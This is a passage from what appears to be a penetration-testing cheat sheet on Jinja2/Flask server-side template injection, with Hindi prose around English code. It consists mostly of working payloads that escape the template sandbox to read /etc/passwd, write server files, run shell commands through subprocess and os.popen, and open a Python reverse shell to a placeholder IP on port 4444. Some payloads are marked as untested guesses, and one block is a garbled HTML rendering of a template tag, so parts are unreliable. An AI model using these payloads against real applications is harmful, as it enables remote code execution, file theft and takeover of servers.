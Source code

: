 ```python

# From the "object" class call __subclasses__()
{{ dict.__base__.__subclasses__() }}
{{ dict.mro()[-1].__subclasses__() }}
{{ (dict.mro()[-1]|attr("\x5f\x5fsubclasses\x5f\x5f"))() }}

{% raw %}
{% with a = dict.mro()[-1].__subclasses__() %} {{ a }} {% endwith %}

# Other examples using these ways
{{ ().__class__.__base__.__subclasses__() }}
{{ [].__class__.__mro__[-1].__subclasses__() }}
{{ ((""|attr("__class__")|attr("__mro__"))[-1]|attr("__subclasses__"))() }}
{{ request.__class__.mro()[-1].__subclasses__() }}
{% with a = config.__class__.mro()[-1].__subclasses__() %} {{ a }} {% endwith %}
{% endraw %}




# Not sure if this will work, but I saw it somewhere
{{ [].class.base.subclasses() }}
{{ ''.class.mro()[1].subclasses() }}
```
### RCE Escaping

**पुनर्प्राप्त करने के बाद** `<class 'object'>` और `__subclasses__` को कॉल करने के बाद, हम अब उन कक्षाओं का उपयोग फ़ाइलें पढ़ने और लिखने और कोड निष्पादित करने के लिए कर सकते हैं।

`__subclasses__` को कॉल करने से हमें **सैकड़ों नई कार्यक्षमताओं** तक पहुँचने का अवसर मिला है, हम **फ़ाइल कक्षा** तक पहुँचकर **फ़ाइलें पढ़ने/लिखने** या किसी भी कक्षा तक पहुँचकर खुश होंगे जो **कमांड निष्पादित करने की अनुमति देती है** (जैसे `os`)।

**रिमोट फ़ाइल पढ़ें/लिखें**
```python
# ''.__class__.__mro__[1].__subclasses__()[40] = File class
{{ ''.__class__.__mro__[1].__subclasses__()[40]('/etc/passwd').read() }}
{{ ''.__class__.__mro__[1].__subclasses__()[40]('/var/www/html/myflaskapp/hello.txt', 'w').write('Hello here !') }}
```
**RCE**
```python
# The class 396 is the class <class 'subprocess.Popen'>
{{''.__class__.mro()[1].__subclasses__()[396]('cat flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}

# Without '{{' and '}}'

<div data-gb-custom-block data-tag="if" data-0='application' data-1='][' data-2='][' data-3='__globals__' data-4='][' data-5='__builtins__' data-6='__import__' data-7='](' data-8='os' data-9='popen' data-10='](' data-11='id' data-12='read' data-13=']() == ' data-14='chiv'> a </div>

# Calling os.popen without guessing the index of the class
{% raw %}
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("ls").read()}}{%endif%}{% endfor %}
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"ip\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/cat\", \"flag.txt\"]);'").read().zfill(417)}}{%endif%}{% endfor %}

## Passing the cmd line in a GET param
```